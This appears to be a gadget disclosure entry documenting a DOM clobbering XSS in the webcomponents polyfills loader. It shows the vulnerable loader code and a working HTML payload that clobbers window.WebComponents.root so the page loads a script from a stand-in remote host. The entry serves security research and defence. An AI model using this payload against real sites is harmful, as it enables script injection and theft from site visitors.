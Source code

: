 ## pollyfill

### Meta

+ Library: polyfills
+ Stars: 1.1K
+ Version: v2.8.0
+ Fingerprint: `window.WebComponents !== 'undefined'`
+ Payload: ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/webcomponents/polyfills

### Vulnerable Code Snippet

```javascript
  var name = 'webcomponents-loader.js';
  // Feature detect which polyfill needs to be imported.
  var polyfills = [];
  if (
    !(
      'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
    ) ||
    (window.ShadyDOM && window.ShadyDOM.force)
  ) {
    polyfills.push('sd');
  }
```

```javascript
if (polyfills.length) {
  var url;
  var polyfillFile = 'bundles/webcomponents-' + polyfills.join('-') + '.js';

  // Load it from the right place.
  if (window.WebComponents.root) {
    url = window.WebComponents.root + polyfillFile;
    if (
      window.trustedTypes &&
      window.trustedTypes.isScriptURL(window.WebComponents.root)
    ) {
      url = policy.createScriptURL(url);
    }
  } 
  ...
  var newScript = document.createElement('script');
  newScript.src = url;
}
```

## PoC

```html
<!--Library-->
<script src="./webcomponents-loader.js"></script>
<!--Library-->

<!--Payload-->
<a id="ShadyDOM"></a>
<a id="ShadyDOM" name="force"></a>
<a id="WebComponents"></a>
<a id="WebComponents" name="root" href="http://localhost:9999"></a>
<!--Payload-->
```

